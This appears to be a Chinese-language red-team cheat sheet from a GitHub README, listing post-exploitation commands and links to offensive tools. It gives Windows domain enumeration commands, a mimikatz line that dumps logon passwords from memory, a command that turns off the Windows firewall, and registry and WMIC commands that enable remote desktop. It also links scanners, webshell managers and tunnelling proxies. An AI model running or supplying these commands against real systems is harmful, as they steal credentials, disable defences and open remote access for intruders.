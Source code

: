# 一些小记


## 一些命令

### 域基础收集

```shell
net view                 # 查看局域网内其他主机名
net config Workstation   # 查看计算机名、全名、用户名、系统版本、工作站、域、登录域
net user                 # 查看本机用户列表
net user /domain         # 查看域用户
net localgroup administrators # 查看本地管理员组（通常会有域用户）
net view /domain         # 查看有几个域
net user 用户名 /domain   # 获取指定域用户的信息
net group /domain        # 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）
net group 组名 /domain    # 查看域中某工作组
net group "domain admins" /domain  # 查看域管理员的名字
net group "domain computers" /domain  # 查看域中的其他主机名
net group "doamin controllers" /domain  # 查看域控制器主机名（可能有多台）
```

mimikatz

```shell
mimikatz_x64.exe "log" "privilege::debug" "sekurlsa::logonpasswords" exit 
```


### 杂项

关闭防火墙：`netsh advfirewall set allprofiles state off`

添加远程桌面

```shell
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
netstat -an|find "3389"
```

## 一些工具



### 子域名收集
- [fofa](https://fofa.info/)
- [securitytrails api](https://securitytrails.com)
- otx.alienvault.com/api/v1/indicators/domain/{domain}/url_list?limit=100&page=1

### 扫描工具
- [fscan](https://github.com/shadow1ng/fscan)
- [kscan](https://github.com/lcvvvv/kscan)

### 管理工具
- [vshell](https://github.com/veo/vshell)
- [antsword](https://github.com/AntSwordProject/antSword)
- [Venom 多级代理](https://github.com/Dliv3/Venom)
- [Stowaway 多级代理](https://github.com/ph4ntonn/Stowaway)
- [Fuso 内网穿透](https://github.com/editso/fuso)
- [红/蓝队环境自动化部署工具](https://github.com/ffffffff0x/f8x)



## 文档查阅
- 工具使用
  - mimikatz: [一](https://paper.seebug.org/1669/), [二](https://paper.seebug.org/1672/)

